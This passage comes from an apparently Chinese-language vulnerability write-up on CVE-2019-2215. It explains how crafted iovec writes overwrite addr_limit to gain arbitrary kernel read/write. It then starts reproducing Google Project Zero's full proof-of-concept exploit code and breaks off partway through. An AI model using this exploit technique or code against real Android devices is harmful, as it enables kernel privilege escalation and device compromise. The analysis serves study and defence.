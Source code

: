 以上刚好是0x28 Bytes的数据，而```current_ptr```正是我们已经通过第一次leak ```tast_struct``` 得到的地址，所以此时的```iovec[12].iov_base```就指向了```addr_limit```所在的内存。同时```iovec[11].iob_base```指向的内存\(从```iovec[10].iov_len```开始的0x28 Bytes\)已经写完。所以此时```write```会将接下来的数据写入```iovec[12].iov_base```指向的内存\(也即存储```addr_limit```的内存\)，即

```cpp
// current_ptr + 0x8 points to task_stuct.thread_info.addr_limit
*(current_ptr + 0x8) = 0xfffffffffffffffe;
```

到这里，就成功篡改了```addr_limit```的限制，后面即可读写kernel任意内存。

### 2.5 Full Poc

这里把 P0提供的完整[poc](https://bugs.chromium.org/p/project-zero/issues/attachmentText?aid=414885)贴在这里，方便查阅。

```cpp
/*
 * POC to gain arbitrary kernel R/W access using CVE-2019-2215
 * https://bugs.chromium.org/p/project-zero/issues/detail?id=1942
 *
 * Jann Horn & Maddie Stone of Google Project Zero
 *
 * 3 October 2019
*/

#define _GNU_SOURCE
#include <stdbool.h>
#include <sys/mman.h>
#include <sys/wait.h>
#include <ctype.h>
#include <sys/uio.h>
#include <err.h>
#include <sched.h>
#include <fcntl.h>
#include <sys/epoll.h>
#include <sys/ioctl.h>
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <linux/sched.h>
#include <string.h>
#include <sys/prctl.h>
#include <sys/socket.h>
#include <sys/un.h>
#include <errno.h>

#define BINDER_THREAD_EXIT 0x40046208ul
// NOTE: we don't cover the task_struct* here; we want to leave it uninitialized
#define BINDER_THREAD_SZ 0x190
#define IOVEC_ARRAY_SZ (BINDER_THREAD_SZ / 16) //25
#define WAITQUEUE_OFFSET 0xA0
#define IOVEC_INDX_FOR_WQ (WAITQUEUE_OFFSET / 16) //10

void hexdump_memory(unsigned char *buf, size_t byte_count) {
  unsigned long byte_offset_start = 0;
  if (byte_count % 16)
    errx(1, "hexdump_memory called with non-full line");
  for (unsigned long byte_offset = byte_offset_start; byte_offset < byte_offset_start + byte_count;
          byte_offset += 16) {
    char line[1000];
    char *linep = line;
    linep += sprintf(linep, "%08lx  ", byte_offset);
    for (int i=0; i<16; i++) {
      linep += sprintf(linep, "%02hhx ", (unsigned char)buf[byte_offset + i]);
    }
```